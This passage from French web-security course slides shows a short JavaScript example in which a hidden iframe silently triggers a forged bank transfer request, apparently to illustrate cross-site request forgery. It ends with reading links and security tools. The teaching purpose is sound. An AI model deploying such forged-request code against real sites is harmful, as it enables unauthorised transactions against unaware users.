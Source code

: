 - Après quelques secondes, le script génère une requête à une page
  sécurisée

~~~
function req() {
  window.frames.hf.location.href=
    'http://bank.servane.org/transfer?to=athanase&amount=10000';
}
setTimeout(req, 5000);
~~~
{:.javascript.att}

- La réponse à `transfer` est reçue dans l'iframe. <span
  class="cli">Clélie</span> ne s'est aperçue de rien.

</section>
<section>

## Lectures

- Un tutoriel : <http://excess-xss.com/>,
- Un autre
  [tutoriel par Google](http://www.google.com/about/appsecurity/learning/xss/),
- Code source des exemples : <https://github.com/defeo/aws-security>.

## Outils

- Proxy HTTP : [WireShark](https://www.wireshark.org/),
- Proxy HTTP : [WebScarab](https://www.owasp.org/index.php/Category:OWASP_WebScarab_Project) (OWASP),
- Tests de pénetration : [Burp Scanner](http://portswigger.net/burp/scanner.html) (OWASP),
- Plateforme d'entraînement :
  [WebGoat](https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project)
  (OWASP).


</section>
